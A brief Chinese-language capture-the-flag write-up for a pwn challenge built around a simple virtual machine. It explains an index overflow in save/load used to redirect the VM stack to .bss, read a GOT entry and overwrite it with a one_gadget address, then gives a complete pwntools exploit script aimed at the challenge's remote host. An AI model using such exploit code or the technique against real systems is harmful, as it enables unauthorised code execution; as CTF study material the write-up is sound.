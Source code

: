 实现了个简单vm

save和load有下标溢出，因此可以改stack的指针指向bss段，然后去读got表中的函数地址，加个偏移，变成one_gadget，再写回去

下面是payload

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com', 40003)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

bss = 0x4040D0

ru('Your program name:')
sl('Ch4r1l3')
ru('Your instruction:')
sl('push push save push push load push add push save')
ru('data:')

data = [bss,-3,-22,-22,(0xf1147-0x6F690),-22]

s = ''
for i in data:
    s += str(i)+' '

sl(s)

p.interactive()

```

